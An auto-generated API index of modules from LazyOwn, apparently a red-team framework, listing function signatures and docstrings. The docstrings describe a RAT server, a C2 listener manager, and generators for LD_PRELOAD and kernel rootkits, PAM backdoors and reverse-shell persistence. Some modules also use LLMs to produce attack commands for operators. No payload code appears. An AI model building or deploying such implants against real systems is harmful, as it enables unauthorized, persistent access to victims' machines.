**Path:** `modules/lazyownerweb.py`

**Functions:**
- `send_request` (line 36) `def send_request(url, params, method)`
- `test_injection` (line 49) `def test_injection(url, payloads, param_name, detection_strings, method)`
- `main` (line 59) `def main()`

#### `lazyownserver.py`
**Path:** `modules/lazyownserver.py`
**File Doc:** *main.py  Autor: Gris Iscomeback Correo electrónico: grisiscomeback[at]gmail[dot]com Fecha de creación: 09/06/2024 Licencia: GPL v3  Descripción: Servidor LazyOwn RAT  ██╗      █████╗ ███████╗██╗   ██╗ ██████╗ ██╗    ██╗███╗   ██╗ ██║     ██╔══██╗╚══███╔╝╚██╗ ██╔╝██╔═══██╗██║    ██║████╗  ██║ ██║     ███████║  ███╔╝  ╚████╔╝ ██║   ██║██║ █╗ ██║██╔██╗ ██║ ██║     ██╔══██║ ███╔╝    ╚██╔╝  ██║   ██║██║███╗██║██║╚██╗██║ ███████╗██║  ██║███████╗   ██║   ╚██████╔╝╚███╔███╔╝██║ ╚████║ ╚══════╝╚═╝  ╚═╝╚══════╝   ╚═╝    ╚═════╝  ╚══╝╚══╝ ╚═╝  ╚═══╝*

**Functions:**
- `signal_handler` (line 34) `def signal_handler(sig, frame)`
- `pad` (line 42) `def pad(s)`
- `encrypt` (line 46) `def encrypt(plaintext, key)`
- `decrypt` (line 53) `def decrypt(ciphertext, key)`
- `handle_client` (line 60) `def handle_client(conn, addr, key)`
- `main` (line 97) `def main()`

#### `__init__.py`
**Path:** `modules/legacy/__init__.py`
**File Doc:** *Backward-compatibility shims for deprecated scripts.  Contract: the canonical location of these scripts is now ``contrib/legacy/``. Every module in this package is a symlink to its counterpart there, so ``python3 modules/legacy/<name>.py``, ``run_script("modules/legacy/<name>.py")`` and ``from modules.legacy.<name> import ...`` keep working without any caller change. New code must import from ``contrib.legacy`` directly and must not add new modules here.*

*No symbols extracted*

#### `lesson_ingestor.py`
**Path:** `modules/lesson_ingestor.py`
**File Doc:** *Lesson ingestion bridge between EpisodeReflectionEngine and MoERouter.  After a campaign completes, :class:`EpisodeReflectionEngine` in ``skills/lazyown_campaign.py`` extracts :class:`LessonLearned` records and persists them to ``sessions/campaign_lessons.jsonl`` and Hive Memory (ChromaDB).  However, those lessons were never fed back into the MoE router or RL trainer to influence future expert selection.  This module closes that gap.  :class:`LessonIngestor` reads lessons and applies lightweight adjustments to:  1. ``ExpertPerformanceStore`` — boosts the EMA reward for experts that executed techniques matching the lesson's topic. 2. ``RLTrainer`` — applies a small positive reward to the ``(task_type, expert)`` Q-entry so the epsilon-greedy policy prefers that expert for the same task type in future campaigns.  Design (SOLID) -------------- - Single Responsibility : lesson → expert mapping + weight adjustment only. - Open/Closed           : new lesson topics added to ``_LESSON_TO_EXPERT``. - Dependency Inversion  : depends on ``get_router`` / ``get_trainer`` factory functions, not concrete classes.*

**Classes:**
- `LessonLearned` (line 55) `class LessonLearned` - *Minimal representation of a campaign lesson for ingestion.*
- `LessonIngestor` (line 77) `class LessonIngestor` - *Bridge between post-campaign lessons and the MoE/RL routing layer.

Reads lessons from ``sessions/campaign_lessons.jsonl`` (or an explicit
list) and applies small reward boosts to the RL Q-table and the MoE
performance store so that experts which previously succeeded for a
given topic are preferred in future campaigns.*

**Functions:**
- `ingest_campaign_lessons` (line 222) `def ingest_campaign_lessons(lessons_file)` - *Module-level convenience function to ingest all campaign lessons.

Args:
    lessons_file: Optional path to a lessons JSONL file.

Returns:
    Number of lessons successfully ingested.*

**Methods:**
- `from_dict` (line 66) `def from_dict(cls, d)`
- `__init__` (line 86) `def __init__(self, lessons_file, router, trainer, boost_reward)`
- `_get_router` (line 98) `def _get_router(self)`
- `_get_trainer` (line 110) `def _get_trainer(self)`
- `_expert_for_topic` (line 122) `def _expert_for_topic(self, topic)`
- `ingest` (line 125) `def ingest(self, lesson)` - *Apply a single lesson to the MoE performance store and RL Q-table.

Args:
    lesson: A :class:`LessonLearned` record.

Returns:
    ``True`` when at least one backend was updated, ``False`` when
    the lesson topic was unmapped or no backend was available.*
- `ingest_all` (line 185) `def ingest_all(self, lessons)` - *Ingest a batch of lessons.

When *lessons* is ``None``, reads from the lessons JSONL file.

Returns:
    Number of lessons successfully ingested.*
- `_load_from_file` (line 202) `def _load_from_file(self)` - *Load lessons from the JSONL file.*

#### `lilsplunky.py`
**Path:** `modules/lilsplunky.py`
**File Doc:** *log_monitor_bot_v2_monolithic.py  Author: Your Name Email: youremail@example.com Creation Date: 14/04/2025 License: GPL v3  Description: Real-time log monitoring bot for Linux systems (Monolithic Test Version). Monitors logs, performs basic parsing, uses DeepSeek for analysis per line, and stores structured results locally.*

**Classes:**
- `LogFileHandler` (line 217) `class LogFileHandler(FileSystemEventHandler)` - *Handles file system events, reads new lines using position tracking,
parses, analyzes, and stores them.*

**Functions:**
- `simple_parse_log_line` (line 69) `def simple_parse_log_line(line, file_path)` - *Intenta extraer información básica de una línea de log.
Esto es MUY básico, idealmente se usarían regex más específicos por tipo de log.*
- `store_event` (line 108) `def store_event(event_data)` - *Almacena el evento procesado (diccionario Python) como una línea JSON
en el archivo de salida.*
- `analyze_with_deepseek` (line 123) `def analyze_with_deepseek(log_entry_data)` - *Sends a single log entry to DeepSeek for analysis.
Returns the analysis result as a Python dictionary or None if error.*
- `display_record` (line 346) `def display_record(record)` - *Muestra un registro procesado de forma atractiva en la consola.*
- `search_logs` (line 382) `def search_logs(query, file_path)` - *Busca en el archivo de eventos JSONL registros que coincidan (búsqueda simple de substring).*
- `start_monitoring` (line 413) `def start_monitoring(log_dir, mode)` - *Starts monitoring the specified log directory.*
- `parse_args` (line 446) `def parse_args()`

**Methods:**
- `__init__` (line 223) `def __init__(self, log_dir, mode)`
- `initialize_file_positions` (line 229) `def initialize_file_positions(self)` - *Set initial position to the end of all currently monitored files.*
- `is_monitored` (line 245) `def is_monitored(self, file_path)` - *Check if the file path matches any of the monitored patterns.*
- `process_file` (line 257) `def process_file(self, file_path)` - *Reads new lines from a file since the last known position.*
- `on_modified` (line 331) `def on_modified(self, event)` - *Triggered when a file or directory is modified.*
- `on_created` (line 336) `def on_created(self, event)` - *Triggered when a file or directory is created.*

#### `linux_advanced_payloads.py`
**Path:** `modules/linux_advanced_payloads.py`
**File Doc:** *Advanced Linux payloads — LD_PRELOAD rootkits, eBPF, PAM backdoors, kernel implants.  Generates Linux-native payloads for persistence, privilege escalation, and stealth. Covers LD_PRELOAD hooking, eBPF payloads, systemd timer persistence, PAM backdoor modules, SSH authorized_keys injection, process masquerading, and kernel module implants.  All payloads are self-contained — templates compile to functional binaries or scripts with no external dependencies beyond standard system tools.*

**Classes:**
- `LinuxAdvancedConfig` (line 64) `class LinuxAdvancedConfig` - *Configuration for advanced Linux payload generation.

Attributes:
    lhost: Attacker IP for reverse connections.
    lport: Listener port.
    payload_type: generated payload category.
    hook_function: LD_PRELOAD function to hook.
    persistence_method: How to persist on the target.
    password: Backdoor password for PAM / SSH access.
    ssh_key: Public SSH key for authorized_keys persistence.
    kernel_module_name: Name for kernel module implants.
    systemd_service_name: Systemd service unit name.
    compile: Attempt on-the-fly gcc compilation for C payloads.*
- `LinuxAdvancedPayloadFactory` (line 92) `class LinuxAdvancedPayloadFactory` - *Generate advanced Linux payloads for persistence, evasion, and escalation.

Produces LD_PRELOAD rootkits, eBPF programs, PAM backdoors, systemd timers,
SSH persistence, kernel modules, and process masquerading scripts.

Attributes:
    config: Payload configuration.
    output_dir: Directory for generated artifacts.*

**Methods:**
- `__init__` (line 105) `def __init__(self, config, output_dir)`
- `generate_ld_preload_rootkit` (line 110) `def generate_ld_preload_rootkit(self)` - *Generate a C source file for an LD_PRELOAD rootkit.

Hooks a specified libc function to execute malicious code before
calling the real function. Common hooks: accept (backdoor listener),
access (hide files), getdents (hide processes/files).

Returns:
    C source code for the LD_PRELOAD shared library.*
- `generate_ebpf_payload` (line 235) `def generate_ebpf_payload(self)` - *Generate an eBPF C program for network manipulation.

Creates an eBPF program that intercepts and modifies network traffic,
useful for covert C2 channels, traffic hiding, or packet injection.

Returns:
    eBPF C source code.*
- `_ip_to_hex` (line 305) `def _ip_to_hex(ip_str)`
- `generate_pam_backdoor` (line 311) `def generate_pam_backdoor(self)` - *Generate a PAM (Pluggable Authentication Module) backdoor.

Creates a shared object that hooks pam_sm_authenticate to accept
a magic password for any user. Drop into /lib/security/ and add
to the PAM stack in /etc/pam.d/common-auth or /etc/pam.d/sshd.

Returns:
    C source code for the PAM module.*
- `generate_systemd_persistence` (line 398) `def generate_systemd_persistence(self)` - *Generate systemd service and timer units for persistent callbacks.

Returns:
    Dict with service_unit and timer_unit content strings.*
- `generate_ssh_persistence` (line 458) `def generate_ssh_persistence(self)` - *Generate an SSH persistence script for authorized_keys injection.

Returns:
    Shell script for SSH key injection across multiple user accounts.*
- `generate_kernel_module` (line 519) `def generate_kernel_module(self)` - *Generate a Linux kernel module (LKM) rootkit.

Creates a minimal kernel module that hides itself from lsmod,
hides files with a magic prefix, and provides a reverse shell
trigger via magic packet on the configured port.

Returns:
    C source code for the kernel module.*
- `generate_process_masquerade` (line 632) `def generate_process_masquerade(self)` - *Generate a process masquerading script.

Renames the process in /proc and argv to blend in with legitimate
system processes. Useful for long-running beacons.

Returns:
    Shell script for process masquerading.*
- `generate_udev_persistence` (line 676) `def generate_udev_persistence(self)` - *Generate a udev rule for persistence on USB/device events.

Returns:
    Udev rule content string.*
- `generate_motd_backdoor` (line 689) `def generate_motd_backdoor(self)` - *Generate a Message of the Day (motd) hook for persistence.

Executes on every SSH login by appending to /etc/update-motd.d/
or /etc/profile.d/. Triggers reverse shell in background.

Returns:
    Shell script for motd/profiled persistence.*
- `compile_c_source` (line 707) `def compile_c_source(self, source, output_name, shared)` - *Compile C source code to a binary or shared library.

Args:
    source: C source code.
    output_name: Output filename (without extension).
    shared: Compile as shared library (.so) instead of executable.

Returns:
    Path to compiled binary, or None if compilation fails.*
- `generate_all` (line 749) `def generate_all(self)` - *Generate all Linux advanced payload artifacts.

Returns:
    Dict with all generated payloads, compiled binaries, and install instructions.*
- `list_hook_functions` (line 793) `def list_hook_functions()`
- `list_persistence_methods` (line 797) `def list_persistence_methods()`

#### `listener_manager.py`
**Path:** `modules/listener_manager.py`
**File Doc:** *Multi-listener manager for LazyOwn C2.  Allows the C2 to listen on multiple ports simultaneously, each serving the same Flask application.  Beacons/implants can connect to any listener and share the same global state (commands, results, connected_clients).  Persistence: ``sessions/listeners.json`` stores the listener configuration.  Bind address: never hardcoded. The address comes from ``payload.json`` via ``c2_bind_address`` or ``lhost``. Wildcard literals (``""``, ``"0.0.0.0"``, ``"::"``) are rejected at the bind site; if the operator wants to expose the listener on a network interface they must put that interface's specific IP in ``payload.json``.*

**Classes:**
- `Listener` (line 141) `class Listener` - *A single C2 listener endpoint.*
- `ListenerManager` (line 172) `class ListenerManager` - *Manage multiple C2 listener ports.

``app`` may be ``None`` when used from the CLI for config-only operations
(add, remove, list).  Start/stop require a live Flask application instance.*

**Functions:**
- `_collect_listener_bind_candidates` (line 35) `def _collect_listener_bind_candidates(payload)` - *Return the ordered list of specific IP candidates from payload.json.

The list contains operator-controlled candidates first
(``c2_bind_address`` then ``lhost``) and always ends with the
loopback fallback. Wildcard literals are filtered out because the
framework must never bind to every interface implicitly.

Args:
    payload: Parsed ``payload.json`` mapping or ``None``.

Returns:
    A deduplicated list of bindable IPv4/IPv6 literal candidates.*
- `_probe_listener_bind` (line 72) `def _probe_listener_bind(address, port)` - *Probe whether ``(address, port)`` can be bound for TCP.

Wildcard literals are rejected inline so the helper doubles as a
sanitiser. The probe uses ``SO_REUSEADDR`` and an ephemeral
timeout to avoid spurious ``EADDRINUSE`` after a recent close.

Args:
    address: IPv4/IPv6 literal candidate.
    port: Port number to test.

Returns:
    ``(True, None)`` when the bind succeeds; otherwise
    ``(False, errno_value)``.*
- `_resolve_listener_bind_address` (line 110) `def _resolve_listener_bind_address(payload, port)` - *Return the specific IP literal listeners must bind to.

Candidates are taken exclusively from ``payload.json``
(``c2_bind_address`` then ``lhost``) with loopback as the final
fallback. When ``port`` is supplied each candidate is probed and
the first bindable address wins, so a stale VPN IP does not
prevent the C2 from starting; the loopback fallback is always
bindable.

Args:
    payload: Parsed ``payload.json`` mapping or ``None``.
    port: Optional port for the bind probe. When omitted the
        first valid candidate is returned without probing.

Returns:
    A specific IPv4/IPv6 literal safe to pass to ``make_server``.*

**Methods:**
- `to_dict` (line 152) `def to_dict(self)`
- `from_dict` (line 162) `def from_dict(cls, data)`
- `__init__` (line 179) `def __init__(self, app, sessions_dir, payload)`
- `set_payload` (line 187) `def set_payload(self, payload)` - *Update the payload mapping used to resolve the bind address.*
- `_bind_address` (line 191) `def _bind_address(self, port)` - *Return the specific bind address derived from payload.json.

When ``port`` is supplied the candidates are probed and the
first bindable one is returned, so a payload-configured IP
belonging to a downed interface does not stop the listener
from starting on the loopback fallback.*
- `_listeners_path` (line 201) `def _listeners_path(self)`
- `_load` (line 204) `def _load(self)`
- `_save` (line 217) `def _save(self)`
- `add` (line 229) `def add(self, port, ssl, listener_id)` - *Register a new listener configuration (does not start it).*
- `remove` (line 242) `def remove(self, listener_id)` - *Remove a listener configuration.*
- `start` (line 255) `def start(self, listener_id)` - *Start a single listener.

Requires a live Flask ``app`` instance.  Returns ``False`` immediately
when called without one (CLI config-only mode).*
- `stop` (line 323) `def stop(self, listener_id)` - *Stop a single listener.*
- `_stop` (line 331) `def _stop(self, listener)`
- `start_all` (line 344) `def start_all(self)` - *Start every listener marked as active.*
- `stop_all` (line 350) `def stop_all(self)` - *Stop every running listener.*
- `status` (line 355) `def status(self)` - *Return status of all listeners.*
- `get_default_port` (line 367) `def get_default_port(self, fallback)` - *Return the port of the first active listener, or fallback.*

#### `live_surface.py`
**Path:** `modules/live_surface.py`
**File Doc:** *Live attack-surface graph derived from the world model.  The static ``templates/graph.html`` is a one-off pyvis export with hardcoded nodes; it cannot reflect an engagement in progress. This module builds a *live* graph instead, straight from ``sessions/world_model.json`` (the authoritative campaign state written by the autonomous daemon and the CLI).  The output is a vis-network-friendly payload — ``nodes``, ``edges`` and a ``stats`` block — that the ``/surface_live`` page polls on an interval so the topology updates as hosts move from *unscanned* to *owned*. Compromised hosts and high-centrality pivot points are flagged with ``pulse`` so the front end can animate them.  Centrality is computed with the existing :class:`modules.world_model.NetworkGraph` (normalized degree centrality), so this module adds presentation only and never re-implements graph reasoning. It imports nothing from ``lazyc2.py`` and is a pure transformation, which keeps it unit-testable.*

**Functions:**
- `_is_compromised` (line 45) `def _is_compromised(state)` - *Return ``True`` when a host state means a foothold was obtained.*
- `_node_value` (line 50) `def _node_value(centrality)` - *Map a centrality score to a vis-network node size.*
- `_group_for` (line 55) `def _group_for(node_id)` - *Classify a graph node id into a vis-network group.*
- `_label_for` (line 64) `def _label_for(node_id)` - *Strip the typed prefix from a node id for display.*
- `build_live_graph` (line 72) `def build_live_graph(world)` - *Build a live vis-network payload from a world-model snapshot.

Args:
    world: Parsed ``world_model.json`` content. Missing or malformed
        sections degrade gracefully to an empty graph.

Returns:
    A dictionary with ``nodes``, ``edges`` and ``stats`` keys. Each node
    carries ``id``, ``label``, ``group``, ``state``, ``centrality``,
    ``value``, ``pulse`` and ``title``. Each edge carries ``from``, ``to``,
    ``relation`` and ``value``.*
- `_emit_node` (line 106) `def _emit_node(node_id, state, title)`
- `_emit_edge` (line 126) `def _emit_edge(source, target, relation, weight)`

#### `llm_adapter.py`
**Path:** `modules/llm_adapter.py`
**File Doc:** *LLM adapter facade — single import point for all LLM backends used by lazyc2.  Consolidates the scattered LLM module imports into one adapter and preserves every original function signature for backward compatibility with the C2 dashboard. The Groq ``process_prompt_*`` family is implemented here directly on the canonical prompt/knowledge contract (:mod:`modules.llm_prompts`) and no longer depends on the retired ``modules.legacy.lazygptcli*`` scripts.  The three streaming local helpers (``process_prompt_local``, ``process_prompt_localreport`` and ``process_prompt_local_yaml``) are retained as re-exports from their Ollama-specific legacy modules until those endpoints migrate onto the factory-backed streaming path.  Usage::  from modules.llm_adapter import ( Groq, safe_groq_client, process_prompt, process_prompt_script, process_prompt_adversary, process_prompt_general, process_prompt_task, process_prompt_vuln, process_prompt_redop, process_prompt_search, )*

**Functions:**
- `safe_groq_client` (line 48) `def safe_groq_client(api_key)` - *Create a Groq client, returning None when no key is provided.

Args:
    api_key: Groq API key or None.

Returns:
    Groq client instance or None.*
- `_configure_logging` (line 65) `def _configure_logging(debug)`
- `_read_prompt_file` (line 70) `def _read_prompt_file(prompt)`
- `_read_error` (line 78) `def _read_error(prompt)`
- `_complete` (line 82) `def _complete(client, full_prompt, model)`
- `_process` (line 96) `def _process(client, prompt, debug, template, config)`
- `process_prompt` (line 119) `def process_prompt(client, prompt, debug)` - *Generate a single-line shell command from a user prompt.

Args:
    client: Groq-style chat completion client.
    prompt: Operator goal text.
    debug: Enable debug logging.

Returns:
    Generated single-line command.*
- `process_prompt_script` (line 133) `def process_prompt_script(client, prompt, debug)` - *Generate a full script from a user prompt.

Args:
    client: Groq-style chat completion client.
    prompt: Script requirements text.
    debug: Enable debug logging.

Returns:
    Generated script text.*
- `process_prompt_adversary` (line 147) `def process_prompt_adversary(client, prompt, debug)` - *Answer questions about MITRE ATT&CK techniques and Atomic Red Team.

Args:
    client: Groq-style chat completion client.
    prompt: Adversary technique query.
    debug: Enable debug logging.

Returns:
    Technique analysis text.*
- `process_prompt_general` (line 161) `def process_prompt_general(client, prompt, debug)` - *Answer as a general red-team assistant with payload.json context.

Args:
    client: Groq-style chat completion client.
    prompt: Operator question.
    debug: Enable debug logging.

Returns:
    Assistance text.*
- `process_prompt_search` (line 175) `def process_prompt_search(client, prompt, debug)` - *Perform research and threat-intelligence analysis.

Args:
    client: Groq-style chat completion client.
    prompt: Research topic.
    debug: Enable debug logging.

Returns:
    Analysis text.*
- `process_prompt_task` (line 189) `def process_prompt_task(client, prompt, debug)` - *Analyze a task-assessment JSON file for completion status.

Args:
    client: Groq-style chat completion client.
    prompt: Path to the task JSON file.
    debug: Enable debug logging.

Returns:
    Task analysis, or an error message when the file cannot be read.*
- `process_prompt_vuln` (line 206) `def process_prompt_vuln(client, prompt, debug, event)` - *Analyze Nmap output for vulnerabilities and propose an action plan.

Args:
    client: Groq-style chat completion client.
    prompt: Path to the Nmap output file.
    debug: Enable debug logging.
    event: Optional event name whose tool output is appended.

Returns:
    Vulnerability assessment, or an error message when the file cannot be
    read.*
- `process_prompt_redop` (line 237) `def process_prompt_redop(client, prompt, debug)` - *Evaluate a red-team operation status from a JSON database file.

Args:
    client: Groq-style chat completion client.
    prompt: Path to the operation JSON file.
    debug: Enable debug logging.

Returns:
    Operation evaluation, or an error message when the file cannot be read.*
- `ask_general` (line 254) `def ask_general(prompt, debug)` - *Answer through the configured LLM backend, regardless of provider.

Resolves the backend from ``payload.json`` via
:func:`modules.llm_factory.try_get_llm_backend`, renders the canonical
general-assistant template with knowledge-base context, and persists
successful answers. This is the single provider-agnostic entry point
every bot (Slack, Telegram, Discord) uses.

Args:
    prompt: Operator question or tool output to analyze.
    debug: Enable debug logging.

Returns:
    Assistance text, or an error message when no backend is available.*

#### `llm_client.py`
**Path:** `modules/llm_client.py`
**File Doc:** *LazyOwn Unified LLM Client ============================ Single interface for all LLM providers used in LazyOwn: - Groq (cloud, fast inference) - Ollama (local models) - DeepSeek via Ollama - Fallback chain: Groq → Ollama → static message  Usage: from modules.llm_client import LLMClient  client = LLMClient() response = client.ask("Explain this nmap output: ...", provider="groq") response = client.ask("Suggest next steps", provider="ollama", model="qwen3.5:0.8b") response = client.ask("Classify this output", provider="auto")   # tries groq then ollama*

**Classes:**
- `LLMClient` (line 45) `class LLMClient` - *Unified LLM client with automatic fallback.

Parameters
----------
api_key : str, optional
    Groq API key. Falls back to GROQ_API_KEY env var.
groq_model : str, optional
    Default Groq model name.
ollama_model : str, optional
    Default Ollama model name.
timeout : int, optional
    HTTP request timeout in seconds.
max_tokens : int, optional
    Max tokens in response.*

**Functions:**
- `get_client` (line 268) `def get_client(api_key)` - *Return (or create) the module-level singleton LLMClient.*
- `ask` (line 276) `def ask(prompt)` - *Module-level convenience wrapper.*
- `classify` (line 288) `def classify(output)` - *Module-level convenience wrapper.*
- `summarize` (line 293) `def summarize(text)` - *Module-level convenience wrapper.*

**Methods:**
- `__init__` (line 63) `def __init__(self, api_key, groq_model, ollama_model, timeout, max_tokens)`
- `ask` (line 79) `def ask(self, prompt)` - *Send a prompt and return the text response.

Parameters
----------
prompt : str
    The user prompt.
provider : str
    One of: "groq", "ollama", "llamacpp", "auto".
    "auto" tries groq first, then ollama, then llamacpp, then returns static msg.
model : str, optional
    Override the default model for the selected provider.
system : str, optional
    System prompt / persona.
temperature : float, optional
    Sampling temperature (0.0–2.0).

Returns
-------
str
    The model's response text, or an error message prefixed with "[LLM error]".*
- `classify` (line 130) `def classify(self, output)` - *Short classification prompt. Returns a single word: success / failure / partial.
Uses the faster/cheaper model by default.*
- `summarize` (line 159) `def summarize(self, text)` - *Summarize a block of text (e.g. nmap output, tool output).*
- `_ask_groq` (line 179) `def _ask_groq(self, prompt, model, system, temperature)`
- `_ask_ollama` (line 220) `def _ask_ollama(self, prompt, model)`
- `_ask_llamacpp` (line 242) `def _ask_llamacpp(self, prompt, model, system)` - *Ask the local llama.cpp server (OpenAI-compatible, keyless).*

#### `llm_evaluator.py`
**Path:** `modules/llm_evaluator.py`
**File Doc:** *llm_evaluator.py — Records LLM decisions and their outcomes, computes quality metrics, and exports fine-tuning datasets for the LazyOwn auto_loop.*

**Classes:**
- `DecisionRecord` (line 21) `class DecisionRecord`
- `OutcomeRecorder` (line 55) `class OutcomeRecorder(ABC)`
- `JSONLRecorder` (line 75) `class JSONLRecorder(OutcomeRecorder)`
- `QualityMetrics` (line 140) `class QualityMetrics`
- `LLMEvaluator` (line 161) `class LLMEvaluator`

**Functions:**
- `_new_id` (line 35) `def _new_id()`
- `_record_from_dict` (line 39) `def _record_from_dict(d)`
- `_safe_mean` (line 150) `def _safe_mean(values)`
- `_tactic_success_rates` (line 154) `def _tactic_success_rates(records)`
- `get_evaluator` (line 293) `def get_evaluator()`
- `record_decision` (line 302) `def record_decision(session_id, thought, action, mitre_tactic, expected_outcome, confidence)`
- `record_outcome` (line 313) `def record_outcome(decision_id, actual_outcome, findings_count, success)`
- `_cli` (line 322) `def _cli()`

**Methods:**
- `record` (line 57) `def record(self, decision)`
- `update_outcome` (line 60) `def update_outcome(self, decision_id, actual, findings_count, success)`
- `load_all` (line 69) `def load_all(self)`
- `load_by_session` (line 72) `def load_by_session(self, session_id)`
- `__init__` (line 76) `def __init__(self, path)`
- `record` (line 81) `def record(self, decision)`
- `update_outcome` (line 86) `def update_outcome(self, decision_id, actual, findings_count, success)`
- `load_all` (line 120) `def load_all(self)`
- `load_by_session` (line 135) `def load_by_session(self, session_id)`
- `__init__` (line 162) `def __init__(self, recorder)`
- `record_decision` (line 165) `def record_decision(self, session_id, thought, action, mitre_tactic, expected_outcome, confidence)`
- `record_outcome` (line 191) `def record_outcome(self, decision_id, actual_outcome, findings_count, success)`
- `compute_metrics` (line 200) `def compute_metrics(self, session_id)`
- `quality_report` (line 241) `def quality_report(self, session_id)`
- `export_finetuning_dataset` (line 256) `def export_finetuning_dataset(self, path)`

#### `llm_factory.py`
**Path:** `modules/llm_factory.py`
**File Doc:** *LLM backend factory and selection utilities.  This module centralizes language model instantiation so that every caller in the framework reads its provider, model name, host, and credentials from a single source: ``payload.json``. The factory removes hardcoded model strings duplicated across six callers and enforces the Dependency Inversion Principle by returning the abstract :class:`AIModel` type while keeping the concrete backend choice under operator control.  Adding a new backend means implementing :class:`AIModel` and registering its identifier in :data:`SUPPORTED_BACKENDS`. No other module needs to change.  The factory wraps every returned backend with the :class:`core.llm_budget.BudgetedBackend` proxy so the daily cost cap and the per call token cap are enforced at the single chokepoint the framework uses. Callers that want the raw backend for testing can call :func:`get_llm_backend_raw` instead.*

**Classes:**
- `LLMBackendUnavailableError` (line 184) `class LLMBackendUnavailableError(RuntimeError)` - *Raised when no LLM backend can be instantiated from the current config.*
- `LLMBackendNotSupportedError` (line 188) `class LLMBackendNotSupportedError(ValueError)` - *Raised when the requested backend identifier is unknown.*

**Functions:**
- `is_model_missing_error` (line 119) `def is_model_missing_error(message)` - *Return True when an error text means the model id is unavailable.

Args:
    message: Exception instance, error string, or API payload text.

Returns:
    ``True`` for 404/model_not_found style replies from OpenAI-compatible
    APIs, so callers can fail over to another model id.*
- `groq_model_chain` (line 139) `def groq_model_chain(config)` - *Return the ordered Groq model ids to try, configured model first.

Resolution order per slot: ``LAZYOWN_GROQ_MODEL`` env var, the provided
config mapping, ``payload.json`` key ``llm_model_groq``, then the default.
Known-good fallbacks follow so an account without access to the default
model still gets a working backend.

Args:
    config: Optional pre-loaded payload mapping.

Returns:
    Tuple of unique, non-empty model ids in try order.*
- `default_model_for` (line 218) `def default_model_for(backend)` - *Return the default model identifier for a backend.

``"auto"`` resolves to the Groq default because the auto chain tries
the Groq cloud leg first.

Args:
    backend: Backend identifier or None (treated as ``"auto"``).

Returns:
    Default model identifier.

Raises:
    LLMBackendNotSupportedError: When the identifier is not supported.*
- `model_config_key` (line 239) `def model_config_key(backend)` - *Return the ``payload.json`` key holding a backend's model override.

``"auto"`` maps to the Groq model slot because the auto chain tries
the Groq cloud leg first.

Args:
    backend: Backend identifier or None (treated as ``"auto"``).

Returns:
    Config key for the model override.

Raises:
    LLMBackendNotSupportedError: When the identifier is not supported.*
- `api_key_config_key` (line 260) `def api_key_config_key(backend)` - *Return the ``payload.json`` key holding a backend's API key slot.

Returns ``None`` for Ollama (keyless local daemon). ``"auto"`` maps
to the Groq key slot because the auto chain tries Groq first.

Args:
    backend: Backend identifier or None (treated as ``"auto"``).

Returns:
    Config key for the API key, or None when no key is needed.

Raises:
    LLMBackendNotSupportedError: When the identifier is not supported.*
- `backend_requires_api_key` (line 285) `def backend_requires_api_key(backend)` - *Report whether a backend needs an API key to operate.

Only Ollama runs keyless. ``"auto"`` reports True because its cloud
leg needs a key (it still degrades to keyless Ollama without one).

Args:
    backend: Backend identifier or None (treated as ``"auto"``).

Returns:
    True when an API key is required, False for Ollama.

Raises:
    LLMBackendNotSupportedError: When the identifier is not supported.*
- `load_payload` (line 303) `def load_payload(payload_path)` - *Read ``payload.json`` from disk and return it as a dictionary.

Args:
    payload_path: Optional explicit path. Defaults to the repository's
        ``payload.json`` resolved relative to this module's parent.

Returns:
    The parsed payload mapping, or an empty dictionary if the file
    is missing or unreadable. Errors are swallowed so the factory
    can fall back to environment variables and defaults.*
- `_resolve_api_key` (line 327) `def _resolve_api_key(config)` - *Return a usable Groq API key or ``None`` when no real key is set.

The placeholder string in ``payload.json`` ("api_key") is treated as
"unset" so the factory falls through to the next backend instead of
sending a doomed request.

Args:
    config: A mapping derived from ``payload.json``.

Returns:
    The first non-placeholder API key found in the configuration or
    the ``GROQ_API_KEY`` environment variable, or ``None``.*
- `_resolve_api_key_for_backend` (line 350) `def _resolve_api_key_for_backend(backend, config)` - *Return a usable API key for a specific backend or ``None``.

Args:
    backend: Normalized backend identifier (groq, openai, anthropic, deepseek).
    config: A mapping derived from ``payload.json``.

Returns:
    API key string or ``None`` when no valid key is configured.*
- `_normalize_backend` (line 381) `def _normalize_backend(backend)` - *Validate and normalize a backend identifier.

Args:
    backend: Raw backend string read from config or call site.

Returns:
    A lowercase identifier guaranteed to be in :data:`SUPPORTED_BACKENDS`.

Raises:
    LLMBackendNotSupportedError: When ``backend`` is non-empty but
        not a recognized identifier.*
- `_build_groq` (line 404) `def _build_groq(config)` - *Instantiate a Groq backend or raise when no API key is available.

Args:
    config: A mapping derived from ``payload.json``.

Returns:
    A configured :class:`GroqModel` instance.

Raises:
    LLMBackendUnavailableError: When no valid Groq API key is found.*
- `_build_ollama` (line 426) `def _build_ollama(config)` - *Instantiate an Ollama backend using configured model and host.

Args:
    config: A mapping derived from ``payload.json``.

Returns:
    A configured :class:`OllamaModel` instance.*
- `_build_llamacpp` (line 440) `def _build_llamacpp(config)` - *Instantiate a llama.cpp server backend (keyless, local).

Args:
    config: A mapping derived from ``payload.json``.

Returns:
    A configured :class:`LlamaCppModel` instance.*
- `_build_openai` (line 454) `def _build_openai(config)` - *Instantiate an OpenAI backend or raise when no API key is available.

Args:
    config: A mapping derived from ``payload.json``.

Returns:
    A configured :class:`OpenAIModel` instance.

Raises:
    LLMBackendUnavailableError: When no valid OpenAI API key is found.*
- `_build_anthropic` (line 476) `def _build_anthropic(config)` - *Instantiate an Anthropic backend or raise when no API key is available.

Args:
    config: A mapping derived from ``payload.json``.

Returns:
    A configured :class:`AnthropicModel` instance.

Raises:
    LLMBackendUnavailableError: When no valid Anthropic API key is found.*
- `_build_deepseek` (line 498) `def _build_deepseek(config)` - *Instantiate a DeepSeek backend or raise when no API key is available.

Args:
    config: A mapping derived from ``payload.json``.

Returns:
    A configured :class:`DeepSeekModel` instance.

Raises:
    LLMBackendUnavailableError: When no valid DeepSeek API key is found.*
- `_resolve_model_identifier` (line 520) `def _resolve_model_identifier(backend_identifier, config)` - *Return the model identifier the factory would use for a backend.

Args:
    backend_identifier: Normalized backend identifier.
    config: Mapping derived from ``payload.json``.
Returns:
    The model identifier the budget proxy records on every call.*
- `_wrap_with_budget` (line 547) `def _wrap_with_budget(backend, config, backend_identifier)` - *Wrap a concrete backend with the budget proxy.

The wrapper is import tolerant. When the budget module is missing
the factory returns the raw backend so a missing dependency never
blocks the operator. When the budget module is present the
factory wraps the backend transparently.

Args:
    backend: Concrete backend the factory built.
    config: Mapping derived from ``payload.json``.
    backend_identifier: Normalized backend identifier.
Returns:
    Either the wrapped proxy or the raw backend when the budget
    module is not importable.*
